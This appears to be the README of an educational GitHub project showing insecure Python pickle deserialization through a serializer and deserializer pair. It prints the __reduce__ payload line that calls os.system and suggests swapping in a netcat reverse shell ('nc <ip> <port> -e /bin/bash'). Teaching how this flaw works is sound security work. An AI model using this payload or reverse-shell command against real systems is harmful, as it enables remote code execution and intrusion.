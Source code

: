 
# **Insecure_Deserialization**

## **Overview**
`Insecure_Deserialization` is a simple Python program designed to demonstrate and explore the concept of insecure deserialization in a hands-on and practical way. The program includes a **serializer** and a **deserializer** to showcase how serialized objects can be manipulated and executed.

This program is primarily for educational purposes, aiming to provide insights into the risks and potential exploitation of insecure deserialization. Additionally, it can be adapted to execute a reverse shell by replacing the default command (`whoami`) with something like `nc <ip> <port> -e /bin/bash`.


## **Features**
- **Serialization (`serializer.py`)**:
  - Encodes an object containing a malicious payload into a serialized format.
  - Outputs the serialized payload in Base64 format.

- **Deserialization (`deserializer.py`)**:
  - Decodes and executes the serialized payload.

- **Custom Commands**:
  - Modify the default `whoami` command in the serializer to execute custom shell commands or even establish a reverse shell.


## **Usage**
### **1. Serialization**
Run the `serializer.py` script to generate a malicious payload:

```
python serializer.py
```

### **2. Deserialization**
Copy the serialized Base64 string and run the `deserializer.py` script. Paste the string as input when prompted:

```
python deserializer.py
```

## **Modifying the Payload**
The default payload executes the `whoami` command. To change the command:

1. Open `serializer.py`.
2. Modify the `return (os.system, ("whoami",))` line in the `Evil` class:
   
   ```
   return (os.system, ("<your_command>",))
   ```
3. For a reverse shell, you can use:
   
   ```
   return (os.system, ("nc <ip> <port> -e /bin/bash",))
   ```

## Example of use via terminal in kali linux (in this case, without venv):

<div align="center">
  <img src="https://github.com/user-attachments/assets/fda334c0-a684-496f-8185-c6ea203e89fc">
</div>


## **Warnings**
- **Educational Purposes Only**: This program is intended to teach the concept of insecure deserialization and should not be used for malicious purposes.
- **Security Risks**: The deserialization of untrusted data is a critical security risk. Avoid using insecure serialization methods like `pickle` in production applications.
- **Test Environment**: Always use this program in a controlled and isolated environment, such as a virtual machine or sandbox.


## **How It Works**
1. The **`Evil` class** in `serializer.py` uses the `__reduce__` method to define a malicious command.
2. The `pickle.dumps` function serializes the `Evil` object.
3. The serialized payload is Base64-encoded and displayed.
4. In `deserializer.py`, the Base64-encoded payload is decoded and deserialized using `pickle.loads`, triggering the execution of the malicious command.


## **Disclaimer**
This program is for educational and testing purposes only. The author is not responsible for any misuse of this code.


## **Setting Up the Environment**

To ensure compatibility and proper setup, it is recommended to use a virtual environment (**venv**). Follow the steps below to create and activate your own virtual environment:

### **1. Create a Virtual Environment**
Run the following command to create a virtual environment in the project directory:

```
python -m venv venv
```

### **2. Activate the Virtual Environment**
Activate the virtual environment based on your operating system:

- **On Windows**:
  
  ```
  venv\Scripts\activate
  ```
- **On Linux/MacOS**:
  
  ```
  source venv/bin/activate
  ```

### **3. Deactivate the Virtual Environment**
When you're done working on the project, deactivate the virtual environment by running:

```
deactivate
```

---

### **Note on Virtual Environments**
The virtual environment (**venv**) is not included in this repository to reduce its size and avoid compatibility issues across different operating systems. Instead, you can generate it locally by following the steps above. 
